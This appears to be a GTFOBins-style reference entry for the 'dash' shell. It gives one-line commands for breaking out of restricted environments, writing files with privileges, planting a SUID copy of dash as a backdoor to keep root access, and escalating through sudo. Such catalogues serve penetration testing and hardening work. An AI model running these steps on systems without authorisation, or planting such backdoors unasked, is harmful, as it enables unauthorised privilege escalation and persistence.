 # GTFOBin: dash

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
dash
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
dash -c 'echo DATA > $LFILE'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which dash) .

./dash -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo dash
```